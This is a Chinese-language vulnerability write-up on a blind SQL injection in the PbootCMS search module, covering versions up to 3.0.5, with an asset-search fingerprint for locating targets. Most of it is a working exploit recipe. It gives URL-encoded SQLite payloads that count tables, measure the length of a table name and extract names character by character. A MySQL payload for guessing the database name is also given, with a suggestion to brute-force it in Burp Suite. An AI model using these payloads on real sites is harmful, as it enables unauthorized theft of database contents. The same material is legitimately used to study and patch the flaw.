 # PbootCMS domain SQL注入漏洞

## 漏洞描述

PbootCMS 搜索模块存在SQL注入漏洞。通过漏洞可获取数据库敏感信息

## 漏洞影响

<a-checkbox checked>PbootCMS <= 3.0.5</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="PBOOTCMS"</a-checkbox></br>

## 漏洞复现

本地搭建好最新版本,访问首页

![img](../../../.vuepress/public/img/1629446682012-1df0a2c6-c764-4f1f-a5ae-cb85fd927b7e.png)

我们需要访问一个存在的页面

url中13后加个单引号 '

![img](../../../.vuepress/public/img/1629446712199-bb42a36a-69b2-485a-b0e6-0512f775cf45.png)

若为执行sql报错相关,则漏洞存在

若显示下图

![img](../../../.vuepress/public/img/1629446812952-1dc35ab3-7379-424b-aad0-f8ad0629361c.png)

则漏洞无法利用

程序默认搭建为sqlite3数据库, Fuzz当前数据库表单payload

```plain
')%0aand%0a(SELECT%0acount(tbl_name)%0aFROM%0asqlite_master%0aWHERE%0atype%3d'ta ble'%0aand%0atbl_name%0aNOT%0alike%0a'sqlite_%')<40--
```

![img](../../../.vuepress/public/img/1629447097101-67648843-6711-4cbc-a2f2-dfa5f6aaa6f9.png)

通过此payload进行盲注Fuzz数据库中表单总数是否小于40

查询为真返回正常,假则报错

![img](../../../.vuepress/public/img/1629447283665-e890ddac-0cea-4447-a0ff-d42578145f93.png)

由此我们可以准确推断出表单总数

计算sqlite数据库中第一个表名长度,我们可以使用如下payload:

```plain
')%0aand%0a(SELECT%0alength(tbl_name)%0aFROM%0asqlite_master%0aWHERE%0atype%3d't able'%0aand%0atbl_name%0aNOT%0alike%0a'sqlite_%'%0alimit%0a1%0aoffset%0a0)<8--
```

![img](../../../.vuepress/public/img/1629447585595-c411c868-fcff-4361-8a84-84596245407a.png)

猜解第一个表名称,我们可以使用如下payload:

```plain
')%0aand%0a(SELECT%0asubstr(tbl_name,1,1)%0aFROM%0asqlite_master%0aWHERE%0atype% 3d'table'%0aand%0atbl_name%0aNOT%0alike%0a'sqlite_%'%0alimit%0a1%0aoffset%0a0)%3d'a'--
```

![img](../../../.vuepress/public/img/1629447665612-0b0fe39d-b896-41d9-9904-cf760f2b516c.png)

这样可以得到数据库第一个表的第一位数值为字符串"a"

通过substr()函数,我们可以很轻松的得到表名称.

同理可获取其他数据

#### 在Mysql下的利用方式

猜解当前数据库名称 可以使用如下payload进行Fuzz:

```plain
')%0aand%0a(select%0asubstr(database(),1,1)%3d'p')%23
```

查询为真时页面将返回正常.

使用Burpsuite可以爆破出数据库名称,其他表名字段名等方法相同

<a-alert type="success" message="(附: https://github.com/Catw0rld/vulner/issues/1)" description="" showIcon>
</a-alert>
<br/>